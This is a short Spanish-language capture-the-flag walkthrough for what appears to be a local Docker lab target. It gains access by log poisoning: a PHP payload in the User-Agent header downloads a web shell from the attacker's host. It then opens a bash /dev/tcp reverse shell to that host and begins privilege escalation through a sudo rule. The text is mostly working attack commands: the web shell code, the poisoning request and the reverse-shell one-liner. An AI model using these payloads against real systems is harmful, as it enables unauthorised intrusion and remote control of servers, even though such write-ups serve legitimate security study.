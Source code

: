 Creamos un archivo malicioso que nos otorgue una **revershell** bajo el nombre: **( cmd.php )**
```php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Nos montamos un servidor con python por el puerto 80
```bash
python3 -m http.server
```

Ahora realizamos la peticion para que sea cargado nuestro archivo maliciso
```bash
curl http://172.17.0.2 -A "<?php system('wget 172.17.0.1/cmd.php -O /var/www/html/cmd.php') ?>" 
```

Recargamos el log del sisitma y aqui estara nuestro archivo maliciosos:
```bash
http://172.17.0.2/cmd.php?cmd=whoami
```
### Intrusion
Nos ponemos en escucha para ganar acceso al target
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
172.17.0.2/cmd.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261''
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
sudo -l
```

**Hallazgos Clave:**
```bash
User www-data may run the following commands on a840807eeae9:
    (nova : nova) NOPASSWD: /opt/password_nova # tenemos una via potencial de migrar a este usuario.
```

### Explotacion de Privilegios

###### Usuario `[ www-data ]`:

```bash
# Comando para escalar al usuario: ( nova )
sudo -u nova /opt/password_nova
```
